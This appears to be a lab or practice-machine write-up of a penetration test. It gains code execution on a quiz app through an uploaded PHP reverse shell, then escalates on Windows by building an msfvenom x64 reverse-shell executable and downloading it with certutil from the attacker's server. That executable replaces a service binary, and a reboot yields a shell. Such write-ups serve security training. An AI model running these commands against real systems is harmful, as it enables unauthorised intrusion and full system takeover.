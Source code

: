 ![](../attachment/b28b1d0ed7ddc88288f5a68a72e77129.png)

We have a quiz app here.

Now we can execute the uploaded file here
![](../attachment/8c07cca2283fff27f1ebdb475f1d6739.png)
We have code execution.

We can try php-reverse-shell.php
![](../attachment/c28ba613f3ed79c98a7eb7957375e01e.png)Then running it we get a shell:
![](../attachment/4ed0a25e03144a0848ddc8df1a5a373e.png)

We can try this 
```
searchsploit -x windows/local/48789.txt
```
![](../attachment/e021bd8ea3e996c29cc2a34d21eb3236.png)

Verifying this:
![](../attachment/7bd00691138507b7d0ab9861d9c0e631.png)

Now we can replace the binary with a reverse shell.
![](../attachment/bd6e121c5d4ed63f17bf1bed16ac8b77.png)
We need a x64 reverse shell
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.245 LPORT=445 -f exe -o bd.exe
```
Now we can replace the bd.exe binary:
```
move bd.exe bd.service.exe
```

Then start a python server on kali![](../attachment/1b9c03bca83e3e13543ea43aed965c3d.png)
```
certutil -urlcache -f http://192.168.45.245/bd.exe bd.exe
```
Now transfer and reboot:
```
shutdown /r
```

Now we get a shell:
![](../attachment/671c5520069cba8e27884eb9b0a16c64.png)

We got it
![](../attachment/a4166a2cc6775f3ea93fb295bf2f57e1.png)
